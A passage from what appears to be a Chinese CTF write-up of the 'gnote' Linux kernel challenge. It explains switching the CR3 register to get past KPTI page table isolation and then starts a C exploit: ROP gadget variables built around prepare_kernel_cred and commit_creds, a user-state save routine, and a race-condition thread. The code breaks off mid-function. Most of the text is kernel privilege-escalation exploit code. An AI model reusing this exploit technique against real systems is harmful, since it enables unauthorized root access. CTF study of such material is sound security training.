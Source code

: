 
关于提权返回到用户态，由于内核开启了KPTI页表隔离机制，我们提权后返回用户态之前应该切换CR3寄存器，具体操作见我看雪帖子[[原创]KERNEL PWN状态切换原理及KPTI绕过](https://bbs.pediy.com/thread-258975.htm)

```python
root@gnote:/# dmesg |grep "page tables isolation: enabled"
[    0.000000] Kernel/User page tables isolation: enabled


```


# EXP

```c
//$ gcc -O3 -pthread -static -g -masm=intel ./exp.c -o exp
#include <pthread.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/uio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <syscall.h>
#include <sys/ipc.h>
#include <sys/sem.h>
#include <sys/user.h>



unsigned long kernel_base,prepare_kernel_cred,commit_creds,xchg_eax_esp_ret, pop_rdi_ret,pop_rsi_ret,mov_rdi_rax_p_ret,pop_rcx,pop_r11,xchg_CR3_sysret;

size_t user_cs, user_ss, user_rflags, user_sp;

struct data {
    unsigned int menu;
    unsigned int arg;
};

int istriggered =0;
int fd;

void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[+] Status has been saved!");
}



void race(void *s)
{
    struct data *d=s;
```